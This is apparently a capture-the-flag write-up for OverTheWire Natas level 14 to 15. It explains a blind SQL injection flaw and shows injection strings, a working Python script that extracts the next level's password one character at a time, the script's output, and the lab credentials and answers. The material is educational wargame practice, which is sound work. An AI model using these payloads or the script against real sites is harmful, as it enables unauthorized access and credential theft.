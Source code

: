 # [Level 14 to 15](https://overthewire.org/wargames/natas/natas15.html) - Blind SQL injection

- Login
```
URL: http://natas15.natas.labs.overthewire.org
Username: natas15
Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
```
- Exercise:
  - ![image](https://github.com/user-attachments/assets/66c6e3ef-7bfe-4389-becb-f9b7b12795e1)
  - ![image](https://github.com/user-attachments/assets/c6d3b98e-6be5-4d95-8d00-fdca542cbc96) 
- Background:
 - Blind SQL injection:
  - Type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response
  - Often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection.
- Solution:
 - Source code explanation:
   - If `username` is included in the request, connect to the database, and `SELECT` all from table users where the username = user input
   - If the debug key exists on the request, show the query to the user
   - If the number of rows is greater than 0, say that the user exists
   - No place where the selected rows will be displayed to the user, only "This user exists." or "This user doesn’t exist."
 - Username `natas16` should be in the database:
   - Query (Checks to see if the substring of username starting at the first character and extending one character in length is equal to n or select all from users where the username is an empty string, or where the first character equals n):
    ```sql
    " OR substring(username,1,1) = 'n' #
    "SELECT * from users where username="" OR substring(username,1,1) = 'n' #
    ```
    - Result: This user exists.
  - Other queries:
  ```sql
  " OR substring(username,1,7) = 'natas16' # -> Result: This user exists.
  ```
  - python Script:
  ```python
  import requests
  import string
  from requests.auth import HTTPBasicAuth
  
  basicAuth=HTTPBasicAuth('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
  headers = {'Content-Type': 'application/x-www-form-urlencoded'}
  
  u="http://natas15.natas.labs.overthewire.org/index.php?debug"
  
  password="" # start with blank password
  count = 1   # substr() length argument starts at 1
  PASSWORD_LENGTH = 32  # previous passwords were 32 chars long
  VALID_CHARS = string.digits + string.ascii_letters
  
  while count <= PASSWORD_LENGTH + 1:
      for c in VALID_CHARS:
          payload="username=natas16" + \
                  "\" AND " + \
                  "BINARY substring(password,1," + str(count) + ")" + \
                  " = '" + password + c + "'" + \
                  " -- "
  
          # print(payload)
  
          response = requests.post(u, data=payload, headers=headers, auth=basicAuth, verify=False)
  
          if 'This user exists.' in response.text:
              print("Found one more char : %s" % (password+c))
              password += c
              count = count + 1
  
  print("Done!")
  ```
  - Output:
  ```bash
  Found one more char : h
  Found one more char : hP
  Found one more char : hPk
  Found one more char : hPkj
  Found one more char : hPkjK
  Found one more char : hPkjKY
  Found one more char : hPkjKYv
  Found one more char : hPkjKYvi
  Found one more char : hPkjKYviL
  Found one more char : hPkjKYviLQ
  Found one more char : hPkjKYviLQc
  Found one more char : hPkjKYviLQct
  Found one more char : hPkjKYviLQctE
  Found one more char : hPkjKYviLQctEW
  Found one more char : hPkjKYviLQctEW3
  Found one more char : hPkjKYviLQctEW33
  Found one more char : hPkjKYviLQctEW33Q
  Found one more char : hPkjKYviLQctEW33Qm
  Found one more char : hPkjKYviLQctEW33Qmu
  Found one more char : hPkjKYviLQctEW33QmuX
  Found one more char : hPkjKYviLQctEW33QmuXL
  Found one more char : hPkjKYviLQctEW33QmuXL6
  Found one more char : hPkjKYviLQctEW33QmuXL6e
  Found one more char : hPkjKYviLQctEW33QmuXL6eD
  Found one more char : hPkjKYviLQctEW33QmuXL6eDV
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVf
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfM
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4s
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4sG
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
  ```
- Password: `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`
